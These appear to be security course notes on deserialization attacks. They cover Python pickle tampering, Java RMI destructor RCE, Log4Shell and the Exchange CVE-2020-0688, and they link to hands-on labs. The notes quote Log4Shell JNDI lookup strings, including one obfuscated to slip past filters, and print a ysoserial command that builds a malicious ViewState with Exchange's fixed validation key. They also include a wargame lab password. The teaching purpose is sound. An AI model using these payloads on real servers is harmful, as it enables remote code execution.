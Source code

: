 * Deserialization attacks

* Intro

- serialization/deserialization is a widely-used concept in modern
  languages for storing objects (structured data)

#+begin_src python
# example in Python:
import pickle

class A:
    def __init__(self, x):
        print("construct " + x)
        self.x = x
    
    def __del__(self):
        print("destruct " + self.x)
#+end_src

#+begin_src python
# Serialize the class
a = A("hello")
a_bytes = pickle.dumps(a)
del(a)
#+end_src

#+begin_example
construct hello
destruct hello
#+end_example

#+begin_src python
# Deserialize the class
print(a_bytes)
a_bytes = a_bytes[:-5] + b'a' + a_bytes[-4:]
a = pickle.loads(a_bytes)
del(a)
#+end_src

#+begin_example
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01A\x94\x93\x94)\x81\x94}\x94\x8c\x01x\x94\x8c\x05hello\x94sb.'
destruct hella
#+end_example

** The problem?

Object integrity is lost once you pass it through some untrusted
channel - give it to the user to store some temporary data (think
authentication cookies stored this way) - send over the network - store
it in a database

** The solution?

- sanity checks required: e.g. cryptographically sign serialized objects
  to maintain integrity
- Java (e.g. RMI) does type checking: the receiving end deserializes the
  object, checks the type, if the type does not match then destroy the
  object

** OWASP resources

- [[https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/][A08:2021 -- Software and Data Integrity Failures]]
- [[https://www.owasp.org/index.php/Deserialization_Cheat_Sheet][Deserialization cheatsheet]]

* Exercise: OWASP WebGoat
- Run the following docker image:
  https://hub.docker.com/r/webgoat/goatandwolf
- Go through A08 - software and data integrity


** Exercise: do Natas 26

http://natas26.natas.labs.overthewire.org/

If Web security is very new, consider starting at Natas0. To get a hold of the basics. 


#+begin_example
(Experienced/advanced)
username = natas26
password = 8A506rfIAXbKKk68yJeuTuRq4UfcK70k
#+end_example

** Remote Code Execution with destructors

- RMI receives an object of a class present in your classpath
- constructs the object, checks the type (mismatch), destroys the object
- the destructor executes arbitrary code from the user
- if anywhere in your classpath you have an object that executes
  arbitrary code upon destruction, you have a path to RCE

** Exercise: Deserialize to B()

[[./code/3-deserialization/Serial.java][Serial.java]]

** Exercise: Serial Killer

- download ysoserial
- go to
  https://github.com/archang31/aacs4-writeups/tree/master/BinaryExploitation/SerialKiller

** log4shell [[[https://en.wikipedia.org/wiki/Log4Shell#Behavior][wikipedia]]]


#+begin_quote
The Java Naming and Directory Interface (JNDI) allows for lookup of Java
objects at program runtime given a path to their data. [...]
#+end_quote

#+begin_quote
In the default configuration, when logging a string, Log4j 2 performs
string substitution on expressions of the form =${prefix:name}=. [...]
Among the recognized expressions is =${jndi:<lookup>};= by specifying
the lookup to be through LDAP, an arbitrary URL may be queried and
loaded as Java object data. =${jndi:ldap://example.com/file}= [...] will
load data from that URL if connected to the Internet. By inputting a
string that is logged, an attacker can load and execute malicious code
hosted on a public URL. [...]
#+end_quote

#+begin_quote
Because HTTP requests are frequently logged, a common attack vector is
placing the malicious string in the HTTP request URL or a commonly
logged HTTP header, such as User-Agent.
#+end_quote

#+begin_quote
Early mitigations included blocking any requests containing potentially
malicious contents, such as =${jndi=. Such basic string matching
solutions can be circumvented by obfuscating the request:
=${${lower:j}ndi=, for example, will be converted into a JNDI lookup
after performing the lowercase operation on the letter =j=. Even if an
input, such as a first name, is not immediately logged, it may be later
logged during internal processing and its contents executed.
#+end_quote

#+caption: log4shell diagra
[[file:img/log4j_attack.jpg]]

Source: [[https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/][Swiss CERT]]

More resources:
[[https://github.com/pentesterland/Log4Shell][pentesterland]]

** Exercise: exploit log4shell

- Join [[https://tryhackme.com/room/solar][tryhackme/solar]]
- Follow the [[https://www.youtube.com/watch?v=PGJVLjgC2e4][video walkthrough by cryptocat]]

* JEP 290

- [[http://openjdk.java.net/jeps/290][JEP 290]]
- [[https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/][Attacking Java RMI services after JEP 290]]

** [[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688][CVE-2020-0688]]: RCE on MS Exchange

- Released Feb.25 2020

- Exchange servers had the same =validationKey= and =decryptionKey= on
  all installs

- =ViewState= is server-side data that ASP.NET web applications store in
  serialized format on the client
  [[file:img/4-deserialization-attacks_files/image.png]]

- Having access to the secret keys (it was the same for all MS Exchange
  installs) it was possible to craft a malicious =ViewState= that runs
  arbitrary code on the server:

#+begin_example
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo OOOPS!!! > c:/Vuln_Server.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
#+end_example

[[attachment:image.png]]

Source: [[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Zero Day Initiative]]

* Back to first principles

#+caption: image.png
[[file:img/4-deserialization-attacks_files/image.png]]

* References

- [[http://frohoff.github.io/appseccali-marshalling-pickles/][Marshalling Pickles (Slides + Video)]]
- [[https://github.com/frohoff/ysoserial][ysoserial: Deserialization attack framework for Java]]
- [[https://github.com/pwntester/ysoserial.net][ysoserial.net: .NET deserialization attack framework]]
- [[https://paper.bobylive.com/Meeting_Papers/BlackHat/USA-2012/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf][Are you my type - blackhat 2012]]
- [[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Remote code execution on Microsoft Exchange]]
- [[https://www.youtube.com/watch?v=w2F67LbEtnk][Log4j vulnerability explained]]
- https://blog.tneitzel.eu/posts/01-attacking-java-rmi-via-ssrf/

